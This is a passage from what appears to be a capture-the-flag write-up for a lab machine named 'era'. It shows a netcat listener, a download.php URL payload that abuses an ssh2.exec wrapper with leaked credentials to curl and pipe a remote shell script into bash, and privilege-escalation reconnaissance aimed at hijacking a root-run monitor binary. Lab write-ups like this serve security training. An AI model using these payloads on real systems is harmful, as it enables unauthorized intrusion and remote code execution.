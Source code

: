 We can set up a reverse shell listener on our local machine:
```bash
nc -lvnp 443
```

Then we can execute a command to get a reverse shell as the user `eric`:
```
http://file.era.htb/download.php?id=150&show=true&format=ssh2.exec://eric:america@127.0.0.1:22/curl%2010.10.14.231:80/shell.sh|bash;
```

We get a reverse shell as the user `eric` and we can read the user flag:
```bash
cat /home/eric/user.txt
```
```
user flag value
```


## Root Exploitation

We can check if user `eric` has sudo privileges:
```bash
sudo -l
```
```
Sorry, user eric may not run sudo on era.
```

We check `id` command to see the user groups:
```bash
id
```
```
uid=1000(eric) gid=1000(eric) groups=1000(eric),1001(devs)
```

We can see that user `eric` is part of the `devs` group. We can check the files that are owned by root and are readable by the `devs` group:
```bash
find / -group devs -readable -type f 2>/dev/null
```
```
/opt/AV/periodic-checks/monitor
/opt/AV/periodic-checks/status.log
```

We can see that there are two files owned by root and readable by the `devs` group:
- `/opt/AV/periodic-checks/monitor`
  - Looks like a binary file which is executed by root every minute.

- `/opt/AV/periodic-checks/status.log`
  - Looks like a log file which is written by the `monitor` binary.


As the `monitor` binary is executed by root every minute, we can try to modify `monitor` to execute a reverse shell as root.
